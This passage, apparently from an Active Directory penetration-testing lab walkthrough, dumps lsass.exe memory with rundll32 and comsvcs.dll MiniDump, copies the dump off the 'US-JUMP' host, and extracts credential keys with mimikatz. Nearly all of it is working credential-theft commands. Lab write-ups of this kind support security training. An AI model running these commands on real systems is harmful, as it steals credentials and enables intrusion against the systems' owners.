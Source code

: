 ![picture 37](images/7636c5f5f1de288dd2f2eb0326eff32a2e384e492b1667cef6e8f5afa5e5647b.png)  

- `PID` : `720`

<br/>

Use `rundll32.exe` with `comsvcs.dll` to dump the `lsass.exe` memory:

```
rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 720 C:\Users\Public\lsass.dump full
```

![picture 38](images/23642448cf1847d669a3dd3afbda27291c52ce36c01e92411918888d60c84450.png)  

<br/>

Quit the current PSSession and get the dump from `US-JUMP`:

```
copy \\US-JUMP\C$\Users\Public\lsass.dump .\
```

![picture 39](images/ce45d80ac10e9421fb0cddd309dcb35d705b653f0a74a6cbb2d066275a5f46d3.png)  

<br/>

Get the credential in the memory dump using mimikatz.exe running as admin:

```
sekurlsa::minidump C:\AD\Tools\lsass.dump
privilege::debug
sekurlsa::ekeys
```
